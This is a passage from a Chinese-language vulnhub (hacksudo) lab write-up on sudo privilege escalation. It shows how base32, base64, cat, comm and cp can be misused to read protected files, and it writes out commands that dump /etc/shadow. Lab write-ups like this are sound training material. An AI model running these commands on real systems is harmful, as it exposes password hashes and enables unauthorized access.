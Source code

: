 ```shell
LFILE=/etc/shadow
sudo base32 "$LFILE" | base32 --decode
```

![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\34.jpg)

## base64提权

与前面的`base32`差不多

![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\35.jpg)

![36](D:\stu\vulnhub\hacksudo靶场\pic-lpe\36.jpg)

## cat提权

也是越权读取文件，并不能直接唤起shell终端

![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\37.jpg)



## comm提权

也是越权读取文件

```shell
file="/etc/shadow"
sudo comm $file /dev/null 2>/dev/null
```

![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\38.jpg)

![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\39.jpg)



## cp提权

这个方式很多

![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\40.jpg)



###### 方式一

越权复制、读取文件

![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\41.jpg)

###### 方式二

